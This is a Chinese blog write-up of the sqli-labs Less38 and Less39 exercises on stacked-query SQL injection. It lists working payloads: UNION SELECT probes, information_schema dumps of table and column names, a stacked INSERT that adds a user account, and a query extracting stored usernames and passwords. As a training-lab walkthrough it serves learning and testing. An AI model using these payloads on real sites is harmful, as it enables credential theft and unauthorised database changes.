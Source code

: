 # 原创
：  （手工）【sqli-labs38、39】堆叠注入、报错回显、字符/数字型

# （手工）【sqli-labs38、39】堆叠注入、报错回显、字符/数字型

**目录**

[一、推荐：](#%C2%A0%E6%8E%A8%E8%8D%90%EF%BC%9A)

[二、（手工）SQL注入基本步骤：](#%E4%B8%80%E3%80%81%E8%AF%BB%E5%86%99%E6%B3%A8%E5%85%A5%EF%BC%88%E6%89%8B%E5%B7%A5%EF%BC%89SQL%E6%B3%A8%E5%85%A5%E5%9F%BA%E6%9C%AC%E6%AD%A5%E9%AA%A4%EF%BC%9A)

[三、Less38（GET-Stacked Query Injection - String）](#%E4%BA%8C%E3%80%81Less8%EF%BC%88GET%20-%20Blind%20-%20Boolian%20Based%20-%20Single%20Quotes%EF%BC%89)

[3.1、简介：（堆叠注入-报错回显-字符型注入）](#2.1%E3%80%81%E7%AE%80%E4%BB%8B%EF%BC%9A%EF%BC%88%E6%96%87%E4%BB%B6%E8%AF%BB%E5%86%99%E6%B3%A8%E5%85%A5%EF%BC%89)

[3.2、第一步：注入点测试](#2.2%E3%80%81%E7%AC%AC%E4%B8%80%E6%AD%A5%EF%BC%9A%E6%B3%A8%E5%85%A5%E7%82%B9%E6%B5%8B%E8%AF%95)

[ 3.3、第二步：分析过滤](#%C2%A02.3%E3%80%81%E7%AC%AC%E4%BA%8C%E6%AD%A5%EF%BC%9A%E5%88%86%E6%9E%90%E8%BF%87%E6%BB%A4)

[3.4、第三步：判断字段数/回显位](#2.4%E3%80%81%E7%AC%AC%E4%B8%89%E6%AD%A5%EF%BC%9A%E5%88%A4%E6%96%AD%E5%AD%97%E6%AE%B5%E6%95%B0)

[3.5、第四步：暴库](#2.4%E3%80%81%E7%AC%AC%E4%B8%89%E6%AD%A5%EF%BC%9A%E6%9A%B4%E5%BA%93)

[3.6、第五步：爆表名](#%C2%A0%E7%AC%AC%E4%B8%89%E6%AD%A5%EF%BC%9A%E7%88%86%E8%A1%A8%E5%90%8D)

[3.7、第六步：爆字段](#%C2%A0%E7%AC%AC%E5%9B%9B%E6%AD%A5%EF%BC%9A%E7%88%86%E5%AD%97%E6%AE%B5)

[ 3.8、第七步：堆叠注入账号](#%C2%A03.8%E3%80%81%E7%AC%AC%E4%B8%83%E6%AD%A5%EF%BC%9A%E5%A0%86%E5%8F%A0%E6%B3%A8%E5%85%A5%E8%B4%A6%E5%8F%B7)

[3.9、第八步：爆数据](#%C2%A0%E7%AC%AC%E4%BA%94%E6%AD%A5%EF%BC%9A%E7%88%86%E6%95%B0%E6%8D%AE)

[四、Less39（GET-Stacked Query Injection - Intiger based）](#%E4%BA%8C%E3%80%81Less8%EF%BC%88GET%20-%20Blind%20-%20Boolian%20Based%20-%20Single%20Quotes%EF%BC%89)

[4.1、简介：（堆叠注入-错误回显-数字型注入）](#2.1%E3%80%81%E7%AE%80%E4%BB%8B%EF%BC%9A%EF%BC%88%E6%96%87%E4%BB%B6%E8%AF%BB%E5%86%99%E6%B3%A8%E5%85%A5%EF%BC%89)

[4.2、利用：](#2.2%E3%80%81%E7%AC%AC%E4%B8%80%E6%AD%A5%EF%BC%9A%E6%B3%A8%E5%85%A5%E7%82%B9%E6%B5%8B%E8%AF%95)

---


> 
<h2>一、推荐：</h2>
[【SQL注入】堆叠注入<img alt="icon-default.png?t=M666" src="https://csdnimg.cn/release/blog_editor_html/release2.1.7/ckeditor/plugins/CsdnLink/icons/icon-default.png?t=M666"/>https://blog.csdn.net/qq_53079406/article/details/125798787?spm=1001.2014.3001.5501](https://blog.csdn.net/qq_53079406/article/details/125798787?spm=1001.2014.3001.5501)[【SQL注入】数字型注入 &amp; 字符型注入<img alt="icon-default.png?t=M666" src="https://csdnimg.cn/release/blog_editor_html/release2.1.7/ckeditor/plugins/CsdnLink/icons/icon-default.png?t=M666"/>https://blog.csdn.net/qq_53079406/article/details/125741101?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522165786402616781435435338%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&amp;request_id=165786402616781435435338&amp;biz_id=0&amp;utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_ecpm_v1~rank_v31_ecpm-1-125741101-null-null.185^v2^control&amp;utm_term=%E6%95%B0%E5%AD%97%E5%9E%8B&amp;spm=1018.2226.3001.4450](https://blog.csdn.net/qq_53079406/article/details/125741101?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522165786402616781435435338%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&amp;request_id=165786402616781435435338&amp;biz_id=0&amp;utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_ecpm_v1~rank_v31_ecpm-1-125741101-null-null.185%5Ev2%5Econtrol&amp;utm_term=%E6%95%B0%E5%AD%97%E5%9E%8B&amp;spm=1018.2226.3001.4450)






---


---


## 二、（手工）SQL注入基本步骤：

> 
第一步：注入点测试
第二步：分析权限
第三步：判断字段数
第四步：爆数据库名
第五步：爆表名
第六步：爆字段名
第七步：堆叠注入账号
第八步：查询


---


---


## 三、Less38（GET-Stacked Query Injection - String）

> 
<h3>3.1、简介：（堆叠注入-报错回显-字符型注入）</h3>
请求方法：GET
方法：堆叠注入+闭合（字符型注入）+报错回显


> 
<h3>3.2、第一步：注入点测试</h3>
输入?id=1 
后面加上单引号报错

 ?id=1'--+
回显正常，说明是单引号闭合
即为字符型




> 
<h3> 3.3、第二步：分析过滤</h3>
方法一：
考虑一步一步将注入语句字符一个一个替换掉，直到不报错（浪费时间）
或者全部替换（如果报错，不知道哪里被过滤了）
<hr/>
方法二：
获取源码进行白盒审计（最优）


> 
<h3>3.4、第三步：判断字段数/回显位</h3>
?id=1' union select 1,2,3 --+
回显正常

 


?id=1' union select 1,2,3,4 --+
报错


 说明字段数为3
<hr/>
判断回显位
?id=-1' union select 1,2,3 --+

 


> 
<h3>3.5、第四步：暴库</h3>
?id=-1' union select 1,2,database() --+




> 
<h3>3.6、第五步：爆表名</h3>
?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+

 


> 
<h3>3.7、第六步：爆字段</h3>
?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users' --+

 


<br/>  

> 
<h3> 3.8、第七步：堆叠注入账号</h3>
?id=1';insert into users(id,username,password) values ('38','less38','at38')--+




> 
<h3>3.9、第八步：爆数据</h3>
?id=-1' union select 1,2,group_concat(username,password) from security.users--+
能看见我们注入的数据




---


---


## 四、Less39（GET-Stacked Query Injection - Intiger based）

> 
<h3>4.1、简介：（堆叠注入-错误回显-数字型注入）</h3>
请求方法：GET
方法：堆叠注入+闭合（数字型注入）+报错回显+联合查询


> 
<h3>4.2、利用：</h3>
与Less38一样
就是从字符型变为了数字型
即不需要闭合

